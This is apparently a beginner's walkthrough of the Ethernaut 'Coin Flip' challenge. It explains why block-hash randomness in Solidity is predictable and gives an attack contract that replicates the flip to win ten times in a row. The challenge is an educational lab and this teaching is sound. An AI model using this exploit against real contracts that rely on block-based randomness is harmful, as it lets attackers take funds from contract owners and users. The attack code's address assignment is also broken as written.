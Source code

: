 # Ethernaut - Walkthrough for Noobs - 3 - Coin Flip

The solution to this challenge is fairly easy, however, it introduces an extremely crucial topic in the blockchain which we usually take for granted otherwise. As always, I will break down the concepts and give you all the tools to solve the problem 100% on your own and then provide my solution.

With that being said let's begin.

> Objectives:
> 
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### Background

If you are familiar with any programming language, you must have come across a function called `random` in some form or the other.

In Javascript for example:

```javascript
var random = Math.random();
console.log("Random Number Generated : " + random); 

//This will generate a random float between 0(inclusive) and 1(exclusive).
```

But no such function exists in Solidity. Why is that?

This is because in the true sense of the word Ethereum is a [Deterministic Finite Machine](https://www.tutorialspoint.com/automata_theory/deterministic_finite_automaton.htm). All transactions on the Ethereum blockchain are deterministic state transition operations i.e. for each input we can determine which state the machine will be in. This is not an inherent flaw per se but a trade-off we make for an extremely important thing: **Consensus.**

If the above sounds like jargon to you, it simply means:

* All nodes have the same copy of the code.
    
* All nodes run it in exactly the same manner.
    
* Thus, they must exactly arrive at the same state.
    

Read more [here](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion).

Thus, we can confidently say that on-chain randomness is not possible. However, what we truly want is not randomness but unpredictability. We want a number that might not be truly random but extremely difficult to predict till it is released.

There are a few [solutions](https://ethereum.stackexchange.com/questions/191/how-can-i-securely-generate-a-random-number-in-my-smart-contract) and workarounds to this problem, such as RANDAO, Commit Reveal Techniques, and the use of Oracles.

### Problems and Code of Importance

This leads people to try to create sort of seemingly random numbers in their contracts which are not really random and can be replicated. Since smart contracts in the same block will have the same value and thus the same random number. Some common pitfalls are using the block context variables such as block hashes, difficulty, gas limit, etc.

The way to attack this is to create another smart contract with the same code to generate the random number.

Coming back to the Coin Flip Challenge, the following code is of importance to us and should be the focal point of our attack.

```solidity
//We have 3 state variables
uint256 public consecutiveWins; //counts how many consecutive wins we have. 
uint256 lastHash; //updated by the flip() function.
//FACTOR is largest integer possible in solidity divided by 2.
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

I will try to explain the code in the comments.

```solidity
//this function basically takes a boolean representing the side of the coin and returns a boolean indicating whether the caller won or not.  
  function flip(bool _guess) public returns (bool) { 
//block.number and blockhash are global variables, we can never know the block values of the block currently being mined, therefore we are using -1 here. 
    uint256 blockValue = uint256(blockhash(block.number - 1));
//revert() is used so that we cannot call flip multiple times in the same block, and will actually have to predict the flip every single time. 
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
//coinFlip would either be 0 or 1, since Factor is Max_int/2 and there are equal numbers above and below Factor. 
    uint256 coinFlip = blockValue / FACTOR;
//if coinFlip is 1 return true else return false. Essentially a 50-50 chance. 
    bool side = coinFlip == 1 ? true : false;
//this line of code just updates consecutiveWins. 
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Now if you realize that the "randomness" created in this block is not truly random and you can just calculate `_guess` in another function by creating another contract with the same parameter and feeding the solution in this contract. The problem is solved.

### Solution

1. Open the Remix IDE [here](http://remix.ethereum.org). We need to write an attack code.
    
2. Copy and paste the Coinflip contract into a file and name it `coinflip.sol`
    
3. Create another file and name it anything, I have named it `attack.sol`
    
4. Generate a new instance and copy the contract address.
    
5. Make sure you are not on a VM.
    
6. Copy the following code in `attack.sol`
    
7. ```solidity
     // SPDX-License-Identifier: MIT
     
     pragma solidity ^0.8.0;
     
     import './CoinFlip.sol';
     
     contract CoinFlipAttack{
       
       
       uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
       address instanceAddress = "Your Instance Address, without the Quotes" ;
     //creates a variable of type CoinFlip pointing to our instanceAddress
       CoinFlip public originalContract = CoinFlip(instanceAddress);
     //same code to generate same result. 
       function coinAttack() public {
         uint256 blockValue = uint256(blockhash(block.number - 1));
         uint256 coinFlip = blockValue/FACTOR;
         bool side = coinFlip == 1 ? true : false;
     //calling the flip function in the contract and feeding it our solution.    
         originalContract.flip(side);
       }
     
     }
    ```
    
8. Make sure to deploy both `attack.sol` and `coinflip.sol` in Remix.
    
9. Now call the `coinAttack()` function 10 times, to pass the stage.
    
10. Make sure that `consecutiveWins()` is increasing by putting this in your console.
    
    ```javascript
    await contract.consecutiveWins()
    ```
    
    Side Quest: Doing this 10 times is a slightly cumbersome process, is there any way we can automate this?
    
    I will probably do this using python in some form later, let me know if you would want the automated version as well.
    

CoinFlip✅